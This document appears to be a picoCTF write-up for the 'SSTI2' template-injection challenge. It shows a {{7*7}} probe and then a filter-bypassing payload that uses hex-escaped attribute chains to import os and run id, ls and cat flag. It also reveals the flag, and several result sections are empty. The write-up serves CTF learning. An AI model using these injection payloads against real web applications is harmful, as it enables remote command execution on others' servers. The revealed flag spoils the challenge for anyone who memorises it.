

>> picoCTF — SSTI2

**Challenge name:** SSTI2 (Server-Side Template Injection)

**Category:** Web / SSTI (Template Injection)

**Difficulty:** Medium

**Author:** NIGHTFURY0X01(Arash)

--- 

## Summary
+ We confirmed the app evaluates template expressions. Starting with a harmless test `{{7*7}}` returned `49`, confirming template evaluation. We then used the application’s Python environment to import `os` via the template builtins and execute shell commands with `os.popen(...)`. Using that technique we ran `id`, `ls`, and finally `cat flag` to retrieve the flag:

```bash
picoCTF{sst1_f1lt3r_byp4ss_6787c4d8}
```
---

## Steps / Exploitation 


## Step 1 — Test for template evaluation
+ In the search/announcement box we submitted:
```bash
{{7*7}}
```


+ Result: 49 — this proves the server is evaluating template expressions (SSTI).


## Step 2 — Execute system commands via builtins import 
+ We tried to access Python builtins and import the `os `module through the template evaluation context. The payload used:
```bash
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

+ Result (id):


## Step 3 — Enumerate files
+ Next we listed files in the app directory using:
```bash 
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}
```
+ Result:

+ We see a flag file in the directory.

## Step 4 — Read the flag 
+ Finally we read the flag file with: 

```bash
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
```
+ Result (flag): 


--- 
 
## Result 
```bash
Flag: picoCTF{sst1_f1lt3r_byp4ss_6787c4d8}
```

